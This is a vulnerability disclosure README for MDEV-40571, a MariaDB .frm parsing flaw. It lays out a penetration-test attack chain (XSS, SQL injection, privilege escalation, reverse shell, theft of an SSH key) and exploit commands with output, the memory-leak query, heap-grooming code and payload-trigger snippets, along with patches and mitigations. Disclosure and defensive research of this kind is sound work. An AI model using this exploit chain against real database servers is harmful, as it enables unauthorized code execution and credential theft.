

<p align="center">
  <a href="./README.md"></a>
  <a href="./README.ko.md"></a>
</p>

# MDEV-40571
- [Vulnerability Overview](#vulnerability-overview)
- [Affected Products](#affected-products)
- [Vulnerability Types](#vulnerability-types)
- [Attack Scenario](#attack-scenario)
    * [Phase1 - API Analysis and Credential Acquisition via XSS](#phase1---api-analysis-and-credential-acquisition-via-xss)
    * [Phase2 - Web Service Analysis and DBMS Credential Acquisition via SQL Injection](#phase2---web-service-analysis-and-dbms-credential-acquisition-via-sql-injection)
    * [Phase3 - Obtaining a Reverse Shell and an SSH Private Key via MDEV-40571](#phase3---obtaining-a-reverse-shell-and-an-ssh-private-key-via-mdev-40571)
- [Attack Scenario Flowchart](#attack-scenario-flowchart)
- [Exploit](#exploit)
    * [Directory Structure](#directory-structure)
    * [Exploit Usage Examples](#exploit-usage-examples)
    * [Demo Video](#demo-video)
    * [Discovery Background](#discovery-background)
    * [RCE Chain Prerequisites](#rce-chain-prerequisites)
    * [Detailed Vulnerability Analysis and Full Exploit Chain](#detailed-vulnerability-analysis-and-full-exploit-chain)
- [Patches and Mitigations](#patches-and-mitigations)
- [Conclusion](#conclusion)
- [Credits](#credits)

## Vulnerability Overview
The vulnerability originates from insufficient validation of .frm data when MariaDB opens a table. A full exploit chain can be constructed by combining an out-of-bounds (OOB) read caused by missing index validation for the `share->field` pointer array, a leak of the `comment_pos` buffer address through manipulation of `default_values` and record metadata, and the placement of a payload in the `comment_pos` buffer using SQL queries. Ultimately, this chain allows an attacker to execute arbitrary code with the privileges of the `mariadbd` process.

## Affected Products
The vulnerability has existed since MariaDB forked from MySQL 5 and affects all MariaDB Community Server releases prior to the fixes listed below.
- MariaDB 13.1 Series (Preview)
- MariaDB 13.0 Series (Preview)
- MariaDB 12.3.1 to 12.3.2
- MariaDB 11.8.1 to 11.8.8
- MariaDB 11.4.1 to 11.4.12
- MariaDB 10.11.1 to 10.11.18
- MariaDB 10.6.1 to 10.6.27
- Old MySQL Version(to 5.1) and Old MariaDB Community Server Release

## Vulnerability Types
- OOB Read
- Remote Code Execution

## Attack Scenario
This scenario begins with XSS and SQL injection vulnerabilities in a web service that are independent of MDEV-40571. These vulnerabilities are used to obtain a MariaDB account password hash and gain database access. Readers interested only in MDEV-40571 can skip to the [Exploit](#exploit) section.

### Phase1 - API Analysis and Credential Acquisition via XSS
1. The attacker analyzes the device firmware to obtain a hardcoded API key and information about API parameters.
2. The attacker submits an XSS payload through the logging API and enumerates web application functionality. The HttpOnly flag prevents direct access to the session cookie, so the payload uses `fetch` to make requests.
3. The attacker identifies an account creation feature, collects its POST parameters, and creates a web administrator account with known credentials.

### Phase2 - Web Service Analysis and DBMS Credential Acquisition via SQL Injection
1. The attacker identifies a SQL injection vulnerability in the Excel export feature and uses sqlmap to attempt to retrieve DBMS credentials.
2. The attacker retrieves the DBMS account name and password hash, determines that the hash is unsalted, and recovers the password through a dictionary attack.

### Phase3 - Obtaining a Reverse Shell and an SSH Private Key via MDEV-40571
1. The attacker uses MDEV-40470 to escalate the compromised DBMS account to DBA privileges.
2. The attacker runs the exploit script.
3. The attacker obtains a shell with `mariadbd` privileges, escalates privileges using the copy-fail vulnerability, and retrieves `id_rsa` from `/home/ubuntu/`.

## Attack Scenario Flowchart

<p align="left">
        
</p>


## Exploit
- 13.1.0: Exploit script for testing in a lab environment.
- 10.4.18: Exploit script used during a penetration test.
  - This script starts a local MariaDB server that matches the target environment and reads its .frm file. Use it for reference only.

### Directory Structure
```
/exploit
  |--- /13.1.0
  |      |--- lab_exploit.py
  |      |--- requirements.txt
  |--- /10.4.18
  |      |--- na_frm_rce2_exploit.py
  |      |--- t16_e2e.py
  |      |--- target_reliable.py
```

### Exploit Usage Examples
```bash
# 10.4.18 remote test
# This exploit was developed during a penetration test and is tailored to my specific environment. It should therefore be used for reference purposes only.
$ THOST=127.0.0.1 USER=mariadb_user TPWD=1234 python3 target_reliable.py --fire 

# WSL2 Ubuntu 24.04 | Building a MariaDB 13.1.0 Test Environment
# When installed in the home directory, the build environment is set up under mariadb-13.1.0-git.
$ cd ~
$ ./build_mariadb_13_1_0.sh 

# Run mariadbd and initialize datadir
$ rm -rf ~/off131
$ mkdir -p ~/off131/data
$ ~/mariadb-13.1.0-git/inst/bin/mariadbd \
  --no-defaults \
  --datadir="$HOME/off131/data" \
  --socket="$HOME/off131/off.sock" \
  --port=3306 \
  --bind-address=127.0.0.1 \
  --skip-grant-tables \
  --secure-file-priv= \
  --local-infile=1 \
  --aria-log-dir-path="$HOME/off131/data" \
  --log-error="$HOME/off131/off.log" \
  --pid-file="$HOME/off131/off.pid"

# 13.1.0 lab exploit - The payload executes the /tmp/heal_t16.sh script.
$ cat /tmp/frm_pwned_t16
[bat error]: '/tmp/frm_pwned_t16': No such file or directory (os error 2)
$ python3 lab_exploit.py
[*] connected (single arena). server ver: 13.1.0-MariaDB
[*] MB=0x60b8287d5000 LB=0x7eff60c00000
[*] leaked C(comment_pos)=0x7eff38022c50
[*] CALIB: re-leaked C2=0x7eff38022c50  stable=True
[=] CALIB PASS. dry-run only. re-run with --fire to arm fieldnr=47 and trigger R5.
$ python3 lab_exploit.py
[*] connected (single arena). server ver: 13.1.0-MariaDB
[*] MB=0x60b8287d5000 LB=0x7eff60c00000
[*] leaked C(comment_pos)=0x7eff3802d7d0
[*] CALIB: re-leaked C2=0x7eff3802d7d0  stable=True
[=] CALIB PASS. dry-run only. re-run with --fire to arm fieldnr=47 and trigger R5.
$ python3 lab_exploit.py
[*] connected (single arena). server ver: 13.1.0-MariaDB
[*] MB=0x60b8287d5000 LB=0x7eff60c00000
[*] leaked C(comment_pos)=0x7eff38038d10
[*] CALIB: re-leaked C2=0x7eff38038d10  stable=True
[=] CALIB PASS. dry-run only. re-run with --fire to arm fieldnr=47 and trigger R5.
$ python3 lab_exploit.py
[*] connected (single arena). server ver: 13.1.0-MariaDB
[*] MB=0x60b8287d5000 LB=0x7eff60c00000
[*] leaked C(comment_pos)=0x7eff38044fd0
[*] CALIB: re-leaked C2=0x7eff380474d0  stable=False
[!] chunk NOT stable across deliver (C moved) -> ABORT before firing
$ python3 lab_exploit.py --fire
[*] connected (single arena). server ver: 13.1.0-MariaDB
[*] MB=0x60b8287d5000 LB=0x7eff60c00000
[*] leaked C(comment_pos)=0x7eff3804b8b0
[*] CALIB: re-leaked C2=0x7eff3804ddb0  stable=False
[!] chunk NOT stable across deliver (C moved) -> ABORT before firing
# [!!!!!] This is the interval during which the `comment_pos` buffer stabilizes.
# The address of `C` from the previous step is the same as the address of `C` in the step where the exploit succeeded.
# Since this may vary depending on the server configuration,
# if the `C` address remains consistent when you run the program without the `--fire` variable, switch to `--fire` mode and run it again.
$ python3 lab_exploit.py --fire
[*] connected (single arena). server ver: 13.1.0-MariaDB
[*] MB=0x60b8287d5000 LB=0x7eff60c00000
[*] leaked C(comment_pos)=0x7eff380517e0
[*] CALIB: re-leaked C2=0x7eff38051cd0  stable=False
[!] chunk NOT stable across deliver (C moved) -> ABORT before firing
$ python3 lab_exploit.py --fire
[*] connected (single arena). server ver: 13.1.0-MariaDB
[*] MB=0x60b8287d5000 LB=0x7eff60c00000
[*] leaked C(comment_pos)=0x7eff38051cd0
[*] CALIB: re-leaked C2=0x7eff38051cd0  stable=True
[*] arming fieldnr=47, delivering weapon, triggering R5 (execve). cmd='id > /tmp/frm_pwned_t16 2>&1; echo PWNED_$(id -u) >> /tmp/frm_pwned_t16'
[*] trigger raised (expected on execve): OperationalError(2013, 'Lost connection to MySQL server during query')
[*] fired. check /tmp/frm_pwned_t16 for proof.
$ cat /tmp/frm_pwned_t16
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: /tmp/frm_pwned_t16
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ uid=1000(pinebudweiser) gid=1000(pinebudweiser) groups=1000(pinebudweiser),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(p
       │ lugdev),100(users),107(netdev)
   2   │ PWNED_1000
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
$ rm -rf /tmp/frm_selfheal 
```

### Demo Video
https://github.com/user-attachments/assets/0b0eef9a-2228-42a2-b966-3ea25245367f


### Discovery Background
During a penetration test for Company A, we obtained MariaDB credentials through SQL injection and identified an SSH private key file on the target server. We tried several SQL-only approaches to retrieve the key. However, the server had been provisioned from an AWS image with basic hardening, and permissions on the plugin directory and the Ubuntu filesystem prevented the code execution approaches we attempted. The data directory (`datadir`) was the only location we identified where the `mariadbd` process had both read and write access. We then found that older MySQL versions and MariaDB store table definitions in binary .frm files. This led us to investigate whether manipulating a .frm file using only SQL queries could expose flaws in the parser.

### RCE Chain Prerequisites
The `secure_file_priv` setting must be empty, and the database account must have the `FILE` privilege. In this chain, [MDEV-40470: GRANT PROXY with empty password incorrectly checks grantor's privileges](https://hackerone.com/reports/3876430) is used to escalate to a DBA account and obtain the required `FILE` privilege.

### Detailed Vulnerability Analysis and Full Exploit Chain
```c++
// [!] Insufficient validation: no upper-bound check
if (!key_part->fieldnr) 
	goto err;    
field= key_part->field= share->field[key_part->fieldnr-1]; // Retrieve the table field (column) object
key_part->type= field->key_type(); // This member function call retrieves the field's key type and can serve as the code execution trigger
```
Following the initial investigation, we fuzzed .frm binaries using an AddressSanitizer build. We found insufficient validation of `key_part->fieldnr`, which is used as an index into the `share->field` pointer array. If an attacker can change `fieldnr` by modifying a .frm file, an out-of-bounds read is possible. To understand how to exploit this behavior, we needed to determine when and where the `share->field` pointer array is allocated on the heap, and which object the resulting array access would reference after `fieldnr` was modified.

```c++
/mariadb-10.4.18/sql/table.cc:2025~2038
  if (!multi_alloc_root(&share->mem_root,
                        &share->field, (uint)(share->fields+1)*sizeof(Field*),
                        &share->intervals, (uint)interval_count*sizeof(TYPELIB),
                        &share->check_constraints, (uint) share->table_check_constraints * sizeof(Virtual_column_info*),
                        /*
                           This looks wrong: shouldn't it be (+2+interval_count)
                           instread of (+3) ?
                        */
                        &interval_array, (uint) (share->fields+interval_parts+ keys+3)*sizeof(char *),
                        &typelib_value_lengths, total_typelib_value_count * sizeof(uint *),
                        &names, (uint) (n_length+int_length),
                        &comment_pos, (uint) com_length,
                        &vcol_screen_pos, vcol_screen_length,
                        NullS))
```                        
MariaDB uses `multi_alloc_root()` to allocate memory sequentially within a chunk obtained from an arena (`&share->mem_root`), following the table and field structures defined in the .frm file. During `init_from_binary_frm_image()`, `alloc_root()` and `multi_alloc_root()` allocate regions sequentially within this memory root. The `share->field` array stores pointers to the table's field (column) objects, with its size determined by the number of fields. By modifying `fieldnr` in the .frm file, an attacker can make an out-of-bounds access through `share->field` reach the `comment_pos` buffer. The size and contents of this buffer can be controlled through the table definition and by modifying the .frm file using SQL queries (`DUMPFILE`, `OUTFILE`).

```x86asm
field->key_type() disassmeble
-------------------------------------------------------------------------------------------
72440A:  mov    0x188(%r14),%rdx       ; rdx = share->field       ← r14=share, +0x188
724411:  mov    -0x8(%rdx,%rax,8),%r12 ; ★ r12 = share->field[fieldnr-1]  = *(field_base + fieldnr*8 - 8)
724416:  mov    %r12,0x0(%r13)         ; 2708: key_part->field = field
72441A:  mov    (%r12),%rax            ; rax = *(field) = vtable
72441E:  mov    %r12,%rdi              ; rdi = field (this)
724421:  call   *0x168(%rax)           ; 2709: field->key_type()   ★ vcall
```
However, the virtual function call `field->key_type()` requires the object address to be loaded into a register. The address of the `comment_pos` buffer must therefore be leaked first.

```sql
CREATE TABLE `t16` (
  `id` int(11) NOT NULL,
  `AAAAAAAA` int(11) DEFAULT NULL COMMENT 'QQQQ...(900)',   -- When a `COMMENT` is defined, the `LEX_CSTRING comment` member of the `Field` class is initialized, and the address of the `comment_pos` buffer is stored in `comment.str`.
  `ldf` char(16) CHARACTER SET latin1 DEFAULT 'AB',			-- To read the address of `C (comment_pos)`, the character set is set to `latin1`, and the field length is configured to 16 bytes.
  `e` enum('xxxxxxxx','xxxxyyyy') NOT NULL,
  `v` int(11) GENERATED ALWAYS AS (`id` + 1) VIRTUAL,
  PRIMARY KEY (`id`),
  KEY `k2` (`AAAAAAAA`)
) ENGINE=Aria ...
```
The `t16` table is designed to support code execution and disclosure of the `comment_pos` address through .frm manipulation. This table layout provides enough buffer space for the payload and establishes the index needed for an out-of-bounds read through `share->field` to reach `comment_pos` when `fieldnr` is modified. Setting the target field's character set to `latin1` minimizes conversion of raw bytes, helping preserve the leaked `comment_pos` address.

```text
&share->mem_root  (TABLE_ALLOC_BLOCK_SIZE = 4096 byte)
┌─────────────────────────────────────────────────────────────────┐
│ USED_MEM header                                                 │
├─────────────────────────────────────────────────────────────────┤
│ [key allocs: KEY, KEY_PART_INFO, rec_per_key ...]               │
├──────────────────────────────────────────── ↑ bump pointer      │
│ default_values  (32B)                       │ alloc_root()      | <-- [!] Manipulating `frm` files to control `rec_pos` and `field_length`: OOB read possible at the `comment.str` address
├──────────────────────────────────────────── │                   │
│ [multi_alloc_root]                          │                   |
│  ├─ share->field[]    ← Field* array        │                   |
│  ├─ share->intervals                        │                   │
│  ├─ interval_array                          │                   │
│  ├─ tvl                                     │                   │
│  ├─ names                                   │                   │
│  ├─ comment_pos ← "Q..." will be set payload│                   │<-- [MDEV-40571] If `fieldnr` is manipulated, the `share->field` object may point to the `comment_pos` buffer.
│  └─ vcol_screen                             │                   │
├──────────────────────────────────────────── │                   │
│ Field_long(Field*) object [id]              │ alloc_root()      │  i=0
│  vtable│ptr│null_ptr│table│field_name│...   │ via operator new  │
├──────────────────────────────────────────── │                   │
│ Field_long(Field*) object [AAAAAAAA]        │ alloc_root()      │  i=1 (defalue_values + 0x171)
│  vtable│ptr│null_ptr│table│comment.str      │ via operator new  │  // [leak target] comment.str = comment_pos
├──────────────────────────────────────────── │                   │
│ Field_string(Field*) object [ldf]           │ alloc_root()      │  i=2
│  vtable│ptr(=dv+0)│field_length(=N)│...     │ via operator new  │
├──────────────────────────────────────────── │                   │
│ Field_enum object [e]                       │ alloc_root()      │  i=3
├──────────────────────────────────────────── │                   │
│ Field_long object [v]                       │ alloc_root()      │  i=4
├──────────────────────────────────────────── ↓                   │
│                     (remain ~2700B)                             │
└─────────────────────────────────────────────────────────────────┘
```
After designing the table, we analyzed `init_from_binary_frm_image()` and reconstructed the `&share->mem_root` layout shown above. We focused on `default_values`, the buffer that stores column default values, and formed the following hypothesis:

- If we increase a field's `field_length` in the .frm file and query its default value, can the read extend far enough to reach the `comment.str` member and disclose the address of the `comment_pos` buffer?

To test this hypothesis, we changed the `ldf` field's `field_length` to 512 bytes (1024 bytes for 13.1.0). Debugging the 10.4.18 build confirmed that `comment.str` was located at offset `0x171` from the start of the `default_values` buffer.

```text
[!] MariaDB caches TABLE_SHARE (&share) for tables it has opened.
```
This caching behavior required the following steps to ensure that the modified .frm file was loaded:

1. Use `DROP` to remove the existing `t16` .frm file.
2. Use `DUMPFILE` to write the modified .frm file into `datadir`.
3. Run `FLUSH TABLES` to flush the previously cached table state.
4. Run `SHOW CREATE TABLE` to fully open the table and load the modified .frm definition into the cache.

```text
SELECT HEX(CONVERT(COLUMN_DEFAULT USING latin1)) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='p3' AND TABLE_NAME='t16' AND COLUMN_NAME='ldf';
```
After the modified .frm definition is loaded into the cache, the query above retrieves the default value of `ldf` from `information_schema`. Because `field_length` has been changed to 512 bytes (1024 bytes for 13.1.0), MariaDB reads that many bytes from `default_values`, exposing the address of the `comment_pos` buffer. The remaining step is to modify the .frm file to place call-oriented programming (COP) gadgets in `comment_pos` and construct an `execve` chain. The gadget chain follows conventional code-reuse techniques and is not covered here.

```text
[!] The comment_pos address obtained during the leak may differ from its address when the .frm file containing the code execution payload is opened, depending on the arena free-list state.
```
Beyond constructing the gadget chain, we needed to address the allocation stability issue described above. We used the following approach:


```text
[>] 8 x CPU cores (2 in the test environment) = 16 arenas. Threads retain their arena assignments; once the limit of 16 is exceeded, arenas are shared.
```
To stabilize arena allocation, we kept 16 connections open based on the formula above. We expected the following queries to occupy arena slots and then leave the corresponding connections idle:
```python
holds = [tconn() for _ in range(16)]                 # Connection of 16 holders
for c in holds: cu.execute("SELECT REPEAT('x',64)")  # Each performs one call to `malloc` → occupies an arena slot, then enters IDLE
```
As an additional safeguard, we required six consecutive leaks to return the same `comment_pos` address before proceeding with the code execution stage.


```python
weapon=build_weapon(base,C,MB,LB,cmd,arm=True)
e = deliver(conn,weapon)
if e: print("[*] trigger raised (expected on execve): %r" %e)
time.sleep(2)
print("[*] fired. check /tmp/frm_pwned_t16 for proof.")
```
Combining these steps completes the exploit chain. The modified .frm file supplies a manipulated `fieldnr`, causing an out-of-bounds read through `share->field` to retrieve a pointer from the payload in `comment_pos`. The subsequent virtual function call on the resulting field object triggers code execution.

## Patches and Mitigations
The fixed releases are 10.6.28, 10.11.19, 11.4.13, 11.8.9, 12.3.3, and 13.0.2. Release notes and download information are available at the following links:
- https://mariadb.com/docs/release-notes/community-server/10.6/10.6.28
- https://mariadb.com/docs/release-notes/community-server/10.11/10.11.19
- https://mariadb.com/docs/release-notes/community-server/11.8/11.8.9
- https://mariadb.com/docs/release-notes/community-server/12.3/12.3.3
- Mitigations: Set `secure_file_priv` to restrict filesystem access through SQL queries. Restrict the `FILE` privilege to accounts that require it, and enforce access controls for remote DBMS connections.

## Conclusion
As demonstrated in the video and attack scenario, exploiting MDEV-40571 requires a DBMS account and connectivity to the database. With insecure settings such as `secure_file_priv=""` and inadequate account privilege controls, the vulnerability can lead to code execution using only SQL queries. Because the flaw dates back to MariaDB's fork from MySQL 5, it affects a broad range of versions. Operators running MariaDB Community Server in production should review their deployed versions and configurations against the prerequisites and fixes described in this document.

## Credits
- [pinebudweiser](https://github.com/pinebudweiser)
- [Ph4nt0m](https://blog.ph4nt0m.xyz/en/)
